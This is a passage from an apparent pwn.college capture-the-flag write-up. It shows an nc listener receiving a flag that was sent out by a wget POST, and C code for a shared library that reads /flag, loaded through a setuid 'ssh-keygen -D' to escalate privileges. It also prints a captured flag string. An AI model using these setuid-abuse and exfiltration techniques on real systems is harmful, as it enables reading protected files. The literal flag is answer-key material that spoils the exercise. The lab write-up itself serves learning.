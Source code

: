 ```
hacker@program-misuse~level50:/$ nc -nlvp 80
Listening on 0.0.0.0 80
Connection received on 127.0.0.1 54618
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: localhost
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

pwn.college{gzrliiugDwjQ9GQK3JnndBJ1Vh9.0lM5EDL4ITM0EzW}
```

&nbsp;

## level 51

```c
include <stdio.h>

int C_GetFunctionList()
{
        FILE *fptr;
        fptr = fopen("/flag", "r");
        char myString[100];
        fgets(myString, 100, fptr);
        printf("%s", myString);
        fclose(fptr);
}

int main()
{
        puts("Hello");
}
```

```
hacker@program-misuse~level51:~$ gcc babysuid51.c -o babysuid51 -shared -no-pie
```

```
hacker@program-misuse~level51:~$ ssh-keygen -D ./babysuid51
```
